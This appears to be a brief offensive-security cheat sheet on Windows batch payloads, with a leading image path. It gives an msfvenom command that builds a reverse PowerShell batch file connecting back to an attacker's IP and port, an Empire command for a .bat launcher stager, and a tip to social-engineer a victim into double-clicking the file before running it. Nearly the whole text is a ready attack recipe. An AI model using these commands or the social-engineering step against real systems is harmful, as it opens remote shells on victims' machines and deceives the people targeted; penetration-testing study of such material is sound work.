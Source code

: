 # Batch

## 01 - Generate Payloads

### 1.1 - `msfvenom`

```
$ msfvenom -p cmd/windows/reverse_powershell lhost=<IP> lport=<PORT> -f raw -o payload.bat
```

### 1.2 - Empire

```
(Empire) > usestager windows/launcher_bat
```

## 02 - Execute Payloads

> [!TIP] Batch Payloads
> You can actually social engineer the victim to double click the `.bat` or `.cmd` to establish connection.

```
C:\> .\payload.bat
```